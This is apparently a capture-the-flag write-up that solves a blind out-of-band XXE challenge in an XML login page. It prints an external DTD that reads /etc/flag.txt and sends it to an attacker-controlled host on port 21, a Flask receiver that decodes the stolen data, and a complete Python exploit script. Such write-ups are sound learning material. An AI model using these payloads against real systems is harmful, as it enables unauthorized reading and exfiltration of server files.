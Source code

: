 # Secure-login

## Introduction
Securelogin was a really fun and pretty tough challenge that I spent a whole weekend solving. Apparently it was based on a real world application.

The application was a XML login that was vulnerable to out-of-band XML external entity. (OOB XXE) attack. However the server didn't allow many ports which made getting a response a lot harder. 

## Application enumeration
Let's begin analyzing the front page of the challenge http://securelogin.challenge.fi:8880/

Front page didn't have anything interesting other than some meme and following messages: `"YoU Sh4lL N0t P4SS!"` and `"Here is the first development version of securelogin for backends, very sEcURe It Is!"`

If the page doesn't provide any interesting, I like to check the source because there might be some comments left behind. 

And the developer had forgotten a comment which exposes a new page: `/xml.php` with odd request that looks like base64. 
```
<!--

Debug info, remember to remove before moving to prod:

  

POST /xml.php HTTP/1.1

Host: localhost:9999

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 164

  

xml=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/Pgo8Y3JlZHM%2bCgk8dXNlcj51c2VybmFtZTwvdXNlcj4KCTxwYXNzPnBhc3N3b3JkPC9wYXNzPgo8L2NyZWRzPg%3d%3d

  

\-->
```

Because I found a new page, running a gobuster seemed like a good idea to see if there were more hidden pages. Gobuster indeed found a one more page: `/flag`. Well that challenge was a easy one. Sadly, it wasn't. The page just contained a message from the creators and some music to listen while solving. 
```
THIS IS NOT THE REAL FLAG! :)

TRY HARDER!

Gr33tz t0 T34M R0T!

Here is some muzak for you to listen while doing this:
https://www.youtube.com/watch?v=c6tQzMhqhLc
https://www.youtube.com/watch?v=l9cnQbtR0h4
```

Now lets get back to the `http://securelogin.challenge.fi:8880/xml.php` page as the comment of the request looked rather interesting. 

## Understading the xml.php file. 
When I first loaded the /xml.php, it took longer than usual to display the page. After loading, the page just displayed a message `Username or password not found! Try Harder!` 

The weird comment in the front page had some weird data included with a post request. I was pretty sure it was base64 so I decided to decode it. 
`xml=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/Pgo8Y3JlZHM%2bCgk8dXNlcj51c2VybmFtZTwvdXNlcj4KCTxwYXNzPnBhc3N3b3JkPC9wYXNzPgo8L2NyZWRzPg%3d%3d`

Decoded version of the data looked super weird so I URL decoded it before b64 decoding. Now the data made more sense. It was a XML payload for login!
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<creds>
	<user>username</user>
	<pass>password</pass>
</creds>
```

After figuring that out, naturally I tried default credentials many times. Even automated some bruteforce, but it didn't result to anything. 

Because the login used XML, I thought that the challenge involves XML External Entity (XXE) or xpath injection -vulnerability. The XXE or xpath injection wasn't very familiar to me, so I spent a good amount of time studying about it. Challenge description said that flag is located in a file `/etc/flag.txt` which implies we need to access the server so XXE was the way to go.
You can read more about it here: https://portswigger.net/web-security/xxe

## Exploitation
Like every hacker, I went to [PayloadAllThings]( https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) and started testing all of those payloads, one by one. 

After many hours of testing and thinking and server responding every time with the same annoying message: `Try HARDER!`. Server just didn't want to respond anything. It was completely blind. I tried setting up a own VPS that the server would send a some kind of response but nothing showed up. 

Sometimes the challenge server did return `500 Internal Server Error`, but nothing really came from that. 

Most of the times we tried to use http, base64 or php protocols in our payloads. For example: `<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://host/%data;'>">` but luckily one guy in our group found out that if you changed the protocol from http to ftp, server did return a different response: `Protocol: FTPUsername or password not found! Try Harder!`.  Atleast because of different response, we officially knew that XXE was a right attack type. 

The hard part is to figure out how to take advantage of server possibly allowing FTP access. I spent many hours trying to set up a proper FTP server to my VPS and then trying to connect. I actually made the server connect to my ftp but it was really inconsistent and I couldn't download any files. 

Also even if I was able to download files what how would I execute that file. Then I thought about using an external XML file because that way we could read files locally. Only problem with this idea is that I couldn't get FTP to work properly. 

If FTP is allowed that means the server allows traffic on port 21. So I started listening traffic on port 21 in my VPS and sent a payload that uses http protocol and connects to port 21. 
```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
	<!ELEMENT r ANY>
	<!ENTITY % sp SYSTEM "http://x.x.x.x:21/">%sp;%param1;]><r>&exfil;</r>
```

And luckily it pinged my server. 

Now all I had left is to craft a valid xml payload that the vulnerable server could fetch from my server and then execute it. 

So I created a exp.xml file
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ip:21/%data;'>">
```

After that I created a custom web server with flask that would send the exp.xml file and then return the flag. 

```python
from flask import send_file, send_from_directory, safe_join, abort
from flask import Flask
from base64 import b64decode
app = Flask(__name__)

@app.route('/exp.xml')
def hello_world():
    print("Fecthing exploit")
    return send_file("exp.xml")

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    flag = b64decode(path.encode("ascii")).decode()
    print("[+] Flag: "+flag)
    return "[+] Flag:", flag

if __name__ == '__main__':
      app.run(host='0.0.0.0', port=21)

```

Finally I crafted a exploit with python that would send xml code to the server. The xml payload would then retrieve exp.xml and execute it which returns the flag as base64 encoded. Luckily my webserver decodes it automatically. 

```python
import requests
from base64 import b64encode, b64decode
from urllib.parse import quote
import sys

def exploit(url, host):

    #Headers
    headers = {
      'Content-Type': 'application/x-www-form-urlencoded'
    }

    #Craft the payload
    payload = f'<?xml version="1.0" ?><!DOCTYPE r [<!ELEMENT r ANY><!ENTITY % sp SYSTEM "http://{host}/exp.xml">%sp;%param1;]><r>&exfil;</r>'.encode('ascii')

    #print the payload
    print("[+] Payload:")
    print(payload.decode())
    print()

    #Encode payload to base64
    payload = {"xml":b64encode(payload).decode('ascii')}

    #print the payload encoded
    print("[+] Payload encoded:")
    print(payload)
    print()

    #Send the payload
    print(f"[*] Sending payload to:", url)
    r = requests.post(url, data=payload, headers=headers)

    #Print response data
    print(f"[+] Status:", r.status_code)
    print(f"[+] Message:\n"+ r.content.decode())
    print(f"[+] Time:", r.elapsed.total_seconds())
    print(f"[+] Headers:")
    for i in r.headers:
        print("\t",i, ":", r.headers[i])

if __name__ == '__main__':
    #Challenge Url
    url = "http://securelogin.challenge.fi:8880/xml.php"

    #OOB Host
    host = "ip:21"

    #Php payload checker
    check_url = "http://localhost:8081"

    if len(sys.argv) == 1:
        print("[!] Usage: python exploit.py <option>")
        sys.exit()
    if sys.argv[1] == "t":
        exploit(check_url, host)
    if sys.argv[1] == "e":
        exploit(url, host)

```
That's how I solved securelogin. Hard but super fun challenge which taught me a lot of new things.  
